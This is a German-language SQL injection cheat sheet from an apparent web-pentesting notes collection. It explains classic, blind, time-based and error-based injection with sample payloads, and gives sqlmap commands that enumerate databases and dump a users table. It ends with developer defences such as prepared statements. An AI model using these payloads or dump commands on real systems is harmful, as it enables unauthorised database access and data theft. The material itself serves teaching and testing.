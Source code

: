 Inhalt für web-pentesting/sqli.md

# 💉 SQL Injection (SQLi)

SQL Injection ist eine Schwachstelle, bei der Angreifer SQL-Befehle in Datenbankabfragen einschleusen können.

---

## 🔍 Typen von SQLi

### 1. Classic SQLi
- Klare Fehlermeldung oder sichtbares Verhalten
- Beispiel:

' OR '1'='1


### 2. Blind SQLi
- Keine direkte Rückmeldung
- Reaktion der Seite zeigt Erfolg (z. B. Redirect, Ladezeit)
- Beispiel (boolean-based):

' AND 1=1 --
' AND 1=2 --


### 3. Time-based Blind
- Verzögerung als Antwortindikator
- Beispiel:

' OR IF(1=1, SLEEP(5), 0) --


### 4. Error-based
- Erzwungene Fehlermeldung zeigt Details
- Beispiel:

' UNION SELECT 1, @@version --


---

## 🧪 Testmethoden

- `'` ans Ende von Parametern setzen
- `ORDER BY` zur Spaltenanzahl-Erkennung
- `UNION SELECT` zur Ausgabe beliebiger Werte
- Automatisiert mit **sqlmap**

---

## 🧰 Tools & Hilfen

| Tool      | Zweck                           |
|-----------|----------------------------------|
| Burp Suite | Parameterfuzzing & Analyse     |
| sqlmap    | Automatische SQLi-Erkennung     |
| wfuzz     | Parametertests (CLI)            |

---

## ⚙️ sqlmap Basics

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs
sqlmap -u "http://.../id=1" -D testdb --tables
sqlmap -u "..." -D testdb -T users --dump

Optionen:

    --batch → Keine Nachfragen

    --cookie="PHPSESSID=..." → Session mitgeben

    --level=5 --risk=3 → Intensivere Tests

🛡️ Schutzmaßnahmen (für Entwickler)

    Prepared Statements / Parameterized Queries

    Keine dynamischen SQL-Strings

    Whitelisting statt Blacklisting

    Fehlerausgabe unterdrücken

📚 Weitere Quellen:

    PayloadAllTheThings – SQLi

